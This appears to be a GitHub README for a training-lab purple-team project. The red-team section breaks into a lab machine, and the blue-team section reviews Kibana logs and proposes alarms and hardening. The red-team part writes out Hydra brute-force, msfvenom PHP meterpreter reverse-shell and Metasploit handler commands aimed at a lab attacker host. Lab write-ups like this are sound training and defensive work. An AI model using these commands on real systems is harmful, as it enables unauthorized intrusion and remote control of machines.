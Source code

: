# Purple Team

For this project, I worked on a Red Team vs. Blue Team scenario in which I played the role of both penetration tester and SOC analyst.
As the Red Team, I attacked a vulnerable Virtual Machine within my environment, and ultimately gained root access to the machine. As Blue Team, I used Kibana to review logs taken from when I attacked the vulernable machine. I then used the logs to extract hard data and visualizations for their report.
I created mitigation measures for each exploit that I've successfully performed.

## Red Team


-	I ran the command ***ifconfig*** to find the IP address of the capstone machine, which was the machine we were attacking.

![1a](https://user-images.githubusercontent.com/92223941/167281275-93a49077-e4fd-49b8-abb8-5996739eb5d8.PNG)

-	I then ran a Nmap command ***nmap -sV 192.168.1.105*** to find the open ports

![image](https://user-images.githubusercontent.com/92223941/167281224-191e434b-d94f-4a4b-a6fd-3515a2e9c02d.png)

-	I then went into the website to see to find any important directories. I was able to find a hidden directory at 192.168.1.105/company_folders/secret_folder that you need to login into as Ashton.

![image](https://user-images.githubusercontent.com/92223941/167281335-956344b0-fdd2-4bee-af89-ebb9f989ae2c.png)

-	On the Kali machine, I ran the Hydra tool with the command ***hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get http://192.168.1.105/company_folders/secret_folder*** on it that used brute force into the wordlist and found the password for it.

![Hydra password](https://user-images.githubusercontent.com/92223941/167281384-6f05f062-0e78-4dce-ad56-1fad9ec91fe1.PNG)

-	I then logged into the secret folder and found a personal note in it.

![image](https://user-images.githubusercontent.com/92223941/167281416-4ab1c2f6-beef-43a8-808b-4bbf5874493d.png)

-	After reading the personal note, I copied the hashed text that was was left for Ryan's account and put it on https://crackstation.net/ and cracked it on the website.

![ryan password](https://user-images.githubusercontent.com/92223941/167281434-8f81988d-a4f1-4695-b83e-bb06cc285285.PNG)

-	Now that I have username and password for Ryan, I can now create my php shell to put on their website. I did so by doing this command ***msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=80 -f raw > shell.php***

![msfvenom](https://user-images.githubusercontent.com/92223941/167281455-8e01b643-d192-4939-8992-b3dca42cdc39.PNG)

-	I then uploaded the shell into the webdav directory.

![image](https://user-images.githubusercontent.com/92223941/167281502-8d68b727-b8e0-49b1-8bdf-87dc7e35cabb.png)

-	I then ran Metasploit to listen to the shell on the target machine, so I can access it via remote. The commands I ran were:

	-	***msfconsole***
	-	***use exploit/multi/handler***
	-	***set payload php/meterpreter/reverse_tcp***
	-	***set LHOST 192.168.1.90***
	-	***set LPORT 80***
	-	***show options***
	-	***run***

![snip 2](https://user-images.githubusercontent.com/92223941/167281556-7176de74-2fec-4aad-81e9-ae500111a626.PNG)

-	I then clicked on the shell on the website after I ran the Metasploit and I was able now to now get remote access to the target machine.

-	I then ran the command ***shell*** and went back to the root directory and then listed the directories and found the flag.

![6](https://user-images.githubusercontent.com/92223941/167281652-3aa24019-0640-4643-a46b-da75072434c6.PNG)
![7](https://user-images.githubusercontent.com/92223941/167281666-b48aaa30-140d-463c-8287-3653eb305899.PNG)



## Blue Team

-	Analysis: Identifying the Port Scan
	-	The port scan occurred on April 6 12 am
	-	162,551 packets were sent from the machine 192.168.1.90
	-	The massive rise in the network traffic indicates that it is a Port Scan

![Port Scan](https://user-images.githubusercontent.com/92223941/167281697-d81d864f-0edc-4bc9-a8a3-e780750f5eba.PNG)

-	Analysis: Finding the Request for the hidden directory
	-	The requested occurred for this URL path on April 6 12 and there were 99,596 requests made to it
	-	The file that was requested was the secret_folder and it contained the hashed password for Ryan's account and the web address to login into

![http request](https://user-images.githubusercontent.com/92223941/167281725-b7ed6d0c-a722-4e69-b8e9-336be079fc9a.PNG)

-	Analysis: Uncovering the Brute Force Attack
	-	99,596 requests were made during the brute force attack to get into the secret folder directory
	-	99,577 requests were made before the attacker found out the password

![brute force attack blue team](https://user-images.githubusercontent.com/92223941/167281750-4c8eb6bf-d727-4fc0-a298-ea743b98926a.PNG)

-	Analysis: Finding the WebDAV Connection
	-	60 requests were made to this directory
	-	Shell files were requested

![webdav](https://user-images.githubusercontent.com/92223941/167281770-7b3f00c8-18da-4851-9339-833991e72a6b.PNG)

## Blue Team Proposed Alarms and Mitigation Strategies

-	Mitigation: Blocking the Port Scan
	-	Alarm
		-	An alert for port scanning can be set to the threshold of 10
	-	System Hardening
		-	The configurations I would set up on the host to mitigate the port scans would be to put up a firewall and close ports 80 and 22. Make sure the server doesnâ€™t response to ICMP requests.

-	Mitigation: Finding the Request for the Hidden Directory
	-	Alarm
		-	I would make an alarm when request for secret folders and files are made and set threshold to 1
	-	System Hardening
		-	To block unwanted access on the host I would not make secret folders accessible for public access. Make complicated passwords and reset password every 3 months.


-	Mitigation: Preventing Brute Force Attacks
	-	Alarm
		-	To detect future brute force attacks, I would set an alert after 3 bad login attempts send a text message or email to the user and manager about activity, after 5 bad logins attempts, reset the password.
	-	System Hardening
		-	I would close ports 22 and 80. Add firewall, encrypt, and hash profiled information as configuration to block brute force attacks on host

-	Mitigation: Detecting the WebDAV Connection
	-	Alarm
		-	I would set the alarm for alert for number of times a file requested in webdav by non-trusted ip address and threshold to 10 to detect future access to this directory
	-	System Hardening
		-	The configuration that can be set on the host to control access is Multi factor login, change password every few months, only specific users have access to WebDav.

-	Mitigation: Identifying Reverse Shell Uploads
	-	Alarm
		-	I would set the alarm for alert for number of times for any shell upload with the threshold of 1 to detect future file uploads
	-	System Hardening
		-	The configuration that can be set on the host to block file upload would be close the ports, strong firewall. Set remote execution to block on the server.



 
